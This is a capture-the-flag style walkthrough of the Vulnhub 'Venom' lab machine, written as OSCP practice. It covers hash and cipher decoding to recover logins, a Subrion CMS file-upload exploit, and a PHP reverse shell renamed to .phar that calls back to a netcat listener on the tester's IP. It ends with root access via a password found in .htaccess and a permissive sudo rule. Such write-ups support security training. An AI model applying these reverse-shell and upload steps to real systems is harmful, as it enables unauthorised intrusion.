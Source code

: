 ```yaml
---
title: "Vulnhub: Venom Walkthrough"
layout: archive
classes: wide
date:   2021-12-22
tags: vulnhub
tags_label: true
---
```


Venom is a boot2root machine from vulnhub. I am practicing for my OSCP, and thats what it's decription says it is for so... I will try to loosely follow the exam report format for practice.

### Information Gathering:

Target: `192.168.56.111`

### Service Enumeration:

It feels weird to put this first, but anyway here we go:

| Server IP Address | Ports Open | Service/Banner |
|-------------------|------------|----------------|
| 192.168.56.111    | 21,80,443  | ftp / http / https |


### Report - Penetration

Again, it feels weird to put this first, spoilers I guess.

**Vulnerability Exploited**: Subrion CMS 4.2.1 - Arbitrary File Upload

**System Vulnerable**: 192.168.56.111

**Vulnerability Explanation**: Subrion CMS suffers from an arbitrary file upload that can lead to Remote Code Execution and allow for a low privilege shell to be obtained. 

In upload directory, .htaccess did not prevent execution of the files that have the pht and phar extensions. As a result, they are able to execute as PHP script.

**Privilege Escalation Vulnerability**: Information Exposure - password in unprotected file

**Vulnerability Fix**: Update .htaccess file. Remove password from unprotected file.

**Severity**: High

### Information Gathering:

Full nmap scan on all ports:

![nmap scan](/assets/images/venom/21.png)

In the page source on the index page on port 80 we find the following:

![index page](/assets/images/venom/22.png)

This is likely a hash, for speed we look it up, and find:

![hash](/assets/images/venom/23.png)

Since it says this will give us access to something, we try and use it to login with FTP. Log in with the credentials `hostinger:hostinger` on FTP, and get the `hint.txt` file.

![ftp](/assets/images/venom/3.png)

In the `hint.txt` file we have:
```
	Hey there... 

T0D0 --

* You need to follow the 'hostinger' on WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0= also aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=
* some knowledge of cipher is required to decode the dora password..
* try on venom.box
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the administrator password 


Have fun .. :)
```

- `WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=` decodes to `standard vignere cipher`, and `aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=` decodes to 
`https://cryptii.com/pipes/vigenere-cipher`.
- since it says to follow 'hostinger', we assume this is the key.
- we assume `dora` is the username
- we get `dora:E7r9t8@Q#h%Hy+M1234`

We add `venom.box` to `/etc/hosts`:

```
sudo vim /etc/hosts
[SNIPPED]
192.168.56.111  venom.box
```

Navigate to `venom.box/panel` and login as `dora`

![login](/assets/images/venom/26.png)

Navigate to Contents > Uploads to access the upload UI:

![upload ui](/assets/images/venom/6.png)

Start a netcat listener:
```
nc -nlvp 1234
```

With ![http://pentestmonkey.net/tools/php-reverse-shell](pentestmonkey's php-reverse-shell), change the extension to `.phar`, and the ip to your ip:
```
$ip = '192.168.56.1';
```

Drag and drop the file into the uploads box. Right-click it, and select "get info", then click on the Link:

![file](/assets/images/venom/24.png)

In the netcat listener we have a connection:

![nc listener](/assets/images/venom/27.png)

We find there is a user hostinger
```
$ ls /home/
hostinger   nathan
```
We log in as that user using the ftp credentials `hostinger:hostinger`:
```
$ su hostinger
Password: hostinger
```
We check there bash_history, and find that they have accessed the file .htaccess and then logged in as nathan. We find the password for nathan in that file:

![htaccess](/assets/images/venom/13.png)

We log in as nathan:
```
hostinger@venom:~$ su nathan
su nathan
Password: FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

nathan@venom:/home/hostinger$ 
```

We find the user flag:

![user flag](/assets/images/venom/17.png)

We check nathan's root permissions:
```
nathan@venom:~$ sudo -l
sudo -l
[sudo] password for nathan: FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

Matching Defaults entries for nathan on venom:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nathan may run the following commands on venom:
    (root) ALL, !/bin/su
    (root) ALL, !/bin/su
```

We get a root shell:
![getting root](/assets/images/venom/18.png)

We get the root flag:

![root flag](/assets/images/venom/20.png)

### Report - House Cleaning:

- Delete the reverse shell file from the directory uploads

FIN.
Hope you enjoyed my terrible arrows. I am definitely gonna fail ;).